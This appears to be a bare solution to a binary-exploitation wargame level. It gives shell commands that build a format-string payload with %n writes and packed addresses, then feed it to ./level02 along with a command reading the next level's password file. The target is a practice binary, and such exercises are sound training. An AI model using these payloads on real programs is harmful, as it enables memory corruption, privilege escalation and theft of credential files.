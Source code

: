 echo -en "%8\$n%4196972d%9\$n\n\xe4\x11\x60\x00\x00\x00\x00\x00\xe0\x11\x60\x00\x00\x00\x00\x00\n" > /tmp/in
(cat /tmp/in; echo "cat /home/users/level03/.pass") | ./level02